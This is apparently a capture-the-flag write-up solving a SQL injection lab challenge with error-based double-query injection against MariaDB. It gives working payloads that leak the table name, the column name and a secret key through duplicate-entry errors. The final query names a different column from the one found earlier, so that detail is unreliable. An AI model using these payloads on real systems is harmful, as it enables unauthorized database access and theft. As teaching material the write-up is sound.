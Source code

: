 # Challenge - 5

This challenge is based on double query injection and we have to use AND in this injection

reference:

`http://www.securitytube.net/video/4283`

## Initial Analysis

First we have to find out how the developer has given the query so we try giving id the value. We can break query using '`\`' Which will give an error

```ABAP
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''\' LIMIT 0,1' at line 1
```

From this we can assume that the query is like:

```sql
select login_name,password from table_name where id='input' 
```

We can check this using id=

```sql
0' or 1=1 --+
```

which will give us a login id and password.

In here the query will not dump anything we give it. It will only dump the login_name and password in the table or the error statement.

Now we have to dump the secret key through the error

```sql
select count(*),concat(0x3a,(select database()),0x3a,floor(rand()*2))a from information_schema.columns group by a;
```

This query will give us an error due to a duplication caused by the randomness of the rand() function. It will dump the database name in the error or anything we give in it's place.

We can use the same method to get the table_name,column_name and secret key

### Solving

We can get the table name using: id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

It will give the error:

```ABAP
Duplicate entry ':8u4mpftsm8:0' for key 'group_key'
```

From which we get table_name = **8u4mpftsm8**

Now we can get the column name using: id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='8u4mpftsm8' limit 2,1),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':secret_5SO5:0' for key 'group_key'
```

From which we will get column_name = **secret_5SO5**

Now we can get the secret key using : id=

```sql
1' AND (select 1 from(select count(*),concat(0x3a,(select secret_9O5W from 8u4mpftsm8),0x3a,floor(rand()*2))a from information_schema.tables group by a)b); --+
```

Which will give the error:

```ABAP
Duplicate entry ':Seu3ERzUbdGJm8cmLpUXpxkE:0' for key 'group_key'
```

where the key is :
**Seu3ERzUbdGJm8cmLpUXpxkE**
